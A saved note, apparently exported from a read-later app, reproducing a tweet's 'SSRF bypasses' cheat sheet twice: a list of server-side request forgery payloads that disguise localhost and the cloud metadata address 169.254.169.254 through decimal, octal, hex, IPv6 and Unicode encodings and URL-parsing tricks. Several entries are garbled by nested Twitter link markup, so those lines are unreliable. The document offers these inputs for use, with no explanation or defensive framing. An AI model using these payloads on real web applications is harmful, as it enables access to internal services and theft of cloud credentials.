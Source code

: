 ```yaml
---
author: h4x0r_fr34k on Twitter
aliases:
  - Tweets From VAIDIK PANDYA
tags:
  - readwise/tweets
url: https://twitter.com/h4x0r_fr34k
date: 2023-12-06
---
```

# Tweets From VAIDIK PANDYA

![rw-book-cover](https://pbs.twimg.com/profile_images/1716632383980707840/_MEi-5_O.jpg)

## Highlights

### id637412428

> SSRF BYPASSES - part 2
> Localhost bypass 
> 
> 127.0.0.1:80
> 127.0.0.1:443
> 127.0.0.1:22
> 127.1:80
> 0
> 0.0.0.0:80
> localhost:80
> [::]:80/
> [::]:25/ SMTP
> [::]:3128/ Squid
> [0000::1]:80/
> [0:0:0:0:0:ffff:127.0.0.1]/thefile
> ①②⑦.⓪.⓪.⓪
> 127.127.127.127
> 127.0.1.3
> 127.0.0.0
> 2130706433/
> 017700000001
> 3232235521/
> 3232235777/
> 0x7f000001/
> 0xc0a80014/
> {domain}<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.0.0.1
> 127.0.0.1#{domain}
> {domain}.127.0.0.1
> 127.0.0.1/{domain}
> 127.0.0.1/?d={domain}
> {domain}<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.0.0.1
> 127.0.0.1#{domain}
> {domain}.127.0.0.1
> 127.0.0.1/{domain}
> 127.0.0.1/?d={domain}
> {domain}<a href="https://twitter.com/localhost">@localhost</a>
> localhost#{domain}
> {domain}.localhost
> localhost/{domain}
> localhost/?d={domain}
> 127.0.0.1%00{domain}
> 127.0.0.1?{domain}
> 127.0.0.1///{domain}
> 127.0.0.1%00{domain}
> 127.0.0.1?{domain}
> 127.0.0.1///{domain}st:+11211aaa
> st:00011211aaaa
> 1.1.1.1 &@2.2.2.2# <a href="https://twitter.com/3">@3</a>.3.3.3/
> 127.1.1.1:80\@<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.2.2.2:80/.
> 127.1.1.1:80#\<a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127"><a href="https://twitter.com/127">@127</a></a></a></a>.2.2.2:80/
> 
> Enclosed Alphanumeric Bypasses :
> 
> http:// 169.254.169.254/%0A
> http:// %E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94:80/
> [View Tweet](https://twitter.com/h4x0r_fr34k/status/1732029948117057683)

^2da607

```
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}
@127
.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}
@127
.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}
@localhost

localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
1.1.1.1 &@2.2.2.2# 
@3
.3.3.3/
127.1.1.1:80\@
@127
.2.2.2:80/.
127.1.1.1:80#\
@127
.2.2.2:80/

Enclosed Alphanumeric Bypasses :

http:// 169.254.169.254/%0A
http:// %E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94:80/
```